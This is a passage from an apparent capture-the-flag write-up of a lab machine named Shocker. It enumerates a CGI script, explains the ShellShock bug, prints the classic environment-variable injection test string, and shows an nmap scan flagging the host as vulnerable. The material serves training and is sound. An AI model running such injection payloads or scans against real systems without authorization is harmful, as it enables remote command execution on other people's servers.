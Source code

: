 ```
===============================================================
```

Nice! We can visit http://10.10.10.56/cgi-bin/user.sh and download the file.

```
┌──(kali㉿kali)-[~/htb/shocker]
└─$ cat user.sh
Content-Type: text/plain

Just an uptime test script

 12:59:34 up 10 min,  0 users,  load average: 0.22, 0.12, 0.07
```

This looks like an uptime command output, which hints at a bash script running in Shocker.

## Road to User

ShellShock was a vulnerability discovered in 2014 that allowed users to execute arbitrary commands in places that should've been safe. One example was

```
env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
```

This was so troublesome because user input was often used in environment variables, which meant that attackers could use an RCE in the User-Agent or Cookie strings.

We can check for shellshock by running the nmap script http-shellshock with arguments uri=/cgi-bin/user.sh:

```
┌──(kali㉿kali)-[~/htb/shocker]
└─$ nmap -sV -p 80 --script http-shellshock --script-args uri=/cgi-bin/user.sh 10.10.10.56
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-28 12:21 CST
Nmap scan report for 10.10.10.56
Host is up (0.031s latency).
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-shellshock:
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-6271
|       This web application might be affected by the vulnerability known
|       as Shellshock. It seems the server is executing commands injected
|       via malicious HTTP headers.
|                                                         
|     Disclosure date: 2014-09-24
|     References:                                         
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
|       http://seclists.org/oss-sec/2014/q3/685
|_      http://www.openwall.com/lists/oss-security/2014/09/24/10
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.02 seconds
```
